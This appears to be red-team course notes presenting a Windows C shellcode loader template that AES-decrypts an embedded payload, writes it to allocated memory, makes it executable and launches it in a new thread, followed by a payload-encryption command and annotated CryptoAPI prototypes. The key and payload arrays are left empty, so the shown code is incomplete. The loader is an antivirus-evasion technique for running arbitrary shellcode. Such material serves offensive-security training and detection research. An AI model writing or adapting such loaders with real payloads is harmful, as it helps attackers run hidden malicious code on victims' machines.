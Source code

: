 
Code snippet
```c
/*

 Red Team Operator course code template
 payload encryption with AES
 
 author: reenz0h (twitter: @sektor7net)

*/
#include <windows.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <wincrypt.h>
#pragma comment (lib, "crypt32.lib")
#pragma comment (lib, "advapi32")
#include <psapi.h>


int AESDecrypt(char * payload, unsigned int payload_len, char * key, size_t keylen) {
        HCRYPTPROV hProv;
        HCRYPTHASH hHash;
        HCRYPTKEY hKey;

        if (!CryptAcquireContextW(&hProv, NULL, NULL, PROV_RSA_AES, CRYPT_VERIFYCONTEXT)){
                return -1;
        }
        if (!CryptCreateHash(hProv, CALG_SHA_256, 0, 0, &hHash)){
                return -1;
        }
        if (!CryptHashData(hHash, (BYTE*)key, (DWORD)keylen, 0)){
                return -1;              
        }
        if (!CryptDeriveKey(hProv, CALG_AES_256, hHash, 0,&hKey)){
                return -1;
        }
        
        if (!CryptDecrypt(hKey, (HCRYPTHASH) NULL, 0, 0, payload, &payload_len)){
                return -1;
        }
        
        CryptReleaseContext(hProv, 0);
        CryptDestroyHash(hHash);
        CryptDestroyKey(hKey);
        
        return 0;
}


int main(void) {
    
	void * exec_mem;
	BOOL rv;
	HANDLE th;
    DWORD oldprotect = 0;

	char key[] = 
	unsigned char calc_payload[] = 
	unsigned int calc_len = sizeof(calc_payload);
	
	// Allocate memory for payload
	exec_mem = VirtualAlloc(0, calc_len, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
	printf("%-20s : 0x%-016p\n", "calc_payload addr", (void *)calc_payload);
	printf("%-20s : 0x%-016p\n", "exec_mem addr", (void *)exec_mem);

	printf("\nHit me 1st!\n");
	getchar();

	// Decrypt payload
	AESDecrypt((char *) calc_payload, calc_len, key, sizeof(key));
	
	// Copy payload to allocated buffer
	RtlMoveMemory(exec_mem, calc_payload, calc_len);
	
	// Make the buffer executable
	rv = VirtualProtect(exec_mem, calc_len, PAGE_EXECUTE_READ, &oldprotect);

	printf("\nHit me 2nd!\n");
	getchar();

	// If all good, launch the payload
	if ( rv != 0 ) {
			th = CreateThread(0, 0, (LPTHREAD_START_ROUTINE) exec_mem, 0, 0, 0);
			WaitForSingleObject(th, -1);
	}

	return 0;
}

```

---

Encrypt payload - take the key
```bash
python aesencrypt.py calc.bin
```

---

In Windows API, you can use and older **Cryptographic API (CryptoAPI)** to perform AES encryption and decryption with functions like `CryptAcquireContextW()`, `CryptHashData()`, `CryptEncrypt()` or `CryptDecrypt()`. But Win API delivers another, newer API - the **Cryptography API: Next Generation** (CNG) with several functions for AES, ex. `BCryptOpenAlgorithmProvider()`, `BCryptGenerateSymmetricKey()`, `BCryptEncrypt()`, etc.

#### Decrypting AES payload algorithm (C-like pseudo-code)

```c
// 1. open a handle hProv to a Cryptographic Service Provider - a module
// implementing specific crypto algorithms, like RSA, AES, etc.
CryptAcquireContextW(&hProv, NULL, NULL, PROV_RSA_AES, CRYPT_VERIFYCONTEXT)

// 2. prepare a new hashing object to generate a SHA-256 hash from the provided key
CryptCreateHash(hProv, CALG_SHA_256, 0, 0, &hHash)

// 3. create SHA-256 hash from the key
CryptHashData(hHash, key, keylen, 0)

// 4. derive a symmetric AES-256 key from the hash
CryptDeriveKey(hProv, CALG_AES_256, hHash, 0, &hKey)

// 5. finally, decrypt the payload
CryptDecrypt(hKey, NULL, 0, 0, payload, &payload_len)
```

---
#### Key Windows API functions

[**_CryptAcquireContextW()_**](https://learn.microsoft.com/en-us/windows/win32/api/wincrypt/nf-wincrypt-cryptacquirecontexta) is used to acquire a handle to a **Cryptographic Service Provider** (CSP) and, if necessary, to create a new key container. In other words, this function helps to establish a cryptographic context that allows applications to access and use cryptographic services provided by the CSP. A CSP is a software module that implements cryptographic algorithms and provides services such as encryption, decryption, hashing, and digital signatures. This function can be found in the _advapi32.dll_ library.

`CryptAcquireContextW()` function has the following prototype:

```c
BOOL WINAPI CryptAcquireContextW(
  HCRYPTPROV *phProv,        // pointer to a handle of a CSP [out param]
  LPCWSTR    pszContainer,   // key container name (null-terminated string). When dwFlags is set to CRYPT_VERIFYCONTEXT, pszContainer must be set to NULL
  LPCWSTR    pszProvider,    // null-terminated string that contains the name of the CSP to be used. If NULL == default provider
  DWORD      dwProvType,    // type of provider to acquire, ex. PROV_RSA_FULL, PROV_RSA_AES, PROV_DSS_DH, etc.
  DWORD      dwFlags        // flag values, usually set to zero. CRYPT_VERIFYCONTEXT for ephemeral keys
);
```

**Return value**

If the function succeeds, the function returns nonzero (`TRUE`). Otherwise, it returns zero (`FALSE`).

---

[**_CryptCreateHash()_**](https://learn.microsoft.com/en-us/windows/win32/api/wincrypt/nf-wincrypt-cryptcreatehash) is used to create a handle to a hash object for a particular hash algorithm. This function can be found in the _advapi32.dll_ library.

`CryptCreateHash()` function has the following prototype:

```c
BOOL WINAPI CryptCreateHash(
  HCRYPTPROV hProv,    // handle to a CSP created by a call to CryptAcquireContext()
  ALG_ID     Algid,    // identifies the hash algorithm to use, ex. CALG_SHA_256, CALG_AES_128, CALG_ECDH, etc.
  HCRYPTKEY  hKey,     // type of hash algorithm is a keyed hash (like MAC or HMAC). Zero if nonkeyed algos
  DWORD      dwFlags,  // 0 or CRYPT_SECRETDIGEST (not used)
  HCRYPTHASH *phHash   // address to which the function copies a handle to the new hash object (pointer)
);
```

**Return value**

If the function succeeds, the function returns nonzero (`TRUE`). Otherwise, it returns zero (`FALSE`).

---

[**_CryptHashData()_**](https://learn.microsoft.com/en-us/windows/win32/api/wincrypt/nf-wincrypt-crypthashdata) is used for hashing data using various hash algorithms provided by the operating system. This function can be found in the _advapi32.dll_ library.

`CryptHashData()` function has the following prototype:

```c
BOOL CryptHashData(
  HCRYPTHASH hHash,      // handle of the hash object
  const BYTE *pbData,    // pointer to a buffer that contains the data to be added to the hash object (the key) must be casted
  DWORD      dwDataLen,  // number of bytes of data to be added (keyl lenght) must be casted
  DWORD      dwFlags     // 0 - nothing, 0x1 - CRYPT_USERDATA
);
```

**Return value**

If the function succeeds, the function returns nonzero (`TRUE`). Otherwise, it returns zero (`FALSE`).

---

[**_CryptDeriveKey()_**](https://learn.microsoft.com/en-us/windows/win32/api/wincrypt/nf-wincrypt-cryptderivekey) generates cryptographic [session keys](https://learn.microsoft.com/en-us/windows/desktop/SecGloss/s-gly) derived from a base data value. This function guarantees that when the same CSP and algorithms are used, the keys generated from the same base data are identical. The base data can be a password or any other user data. This function can be found in the _advapi32.dll_ library.

`CryptDeriveKey()` function has the following prototype:

```c
BOOL CryptDeriveKey(
  HCRYPTPROV hProv,      // handle of a CSP created by a call to CryptAcquireContext()
  ALG_ID     Algid,      // identifies the hash algorithm to use, ex. CALG_AES_256, CALG_AES_128, CALG_ECDH, etc. 
  HCRYPTHASH hBaseData,  // handle to a hash object that has been fed the exact base data
  DWORD      dwFlags,    // type of key generated, can be zero or one or more values, ex. CRYPT_CREATE_SALT, CRYPT_EXPORTABLE, CRYPT_UPDATE_KEY, etc.
  HCRYPTKEY  *phKey      // pointer to a variable to receive the address of the handle of the newly generated key
);
```

**Return value**

If the function succeeds, the function returns nonzero (`TRUE`). Otherwise, it returns zero (`FALSE`).

---

[**_CryptDecrypt()_**](https://learn.microsoft.com/en-us/windows/win32/api/wincrypt/nf-wincrypt-cryptdecrypt) is used for decrypting encrypted data using the same cryptographic key. This function can be found in the _advapi32.dll_ library.

`CryptDecrypt()` function has the following prototype:

```c
BOOL CryptDecrypt(
  HCRYPTKEY hKey,        // handle to the key to use for the decryption
  HCRYPTHASH hHash,      // handle to a hash object. If no hash, must be zero
  BOOL      Final,       // specifies whether this is the last section in a series being decrypted. If TRUE - the last block.
  DWORD     dwFlags,     // possible values: CRYPT_OAEP or CRYPT_DECRYPT_RSA_NO_PADDING_CHECK
  BYTE      *pbData,     // pointer to a buffer that contains the data to be decrypted. After the decryption, the plaintext is placed back into this same buffer.
  DWORD     *pdwDataLen  // length of the pbData buffer
);
```

**Return value**

If the function succeeds, the function returns nonzero (`TRUE`). Otherwise, it returns zero (`FALSE`).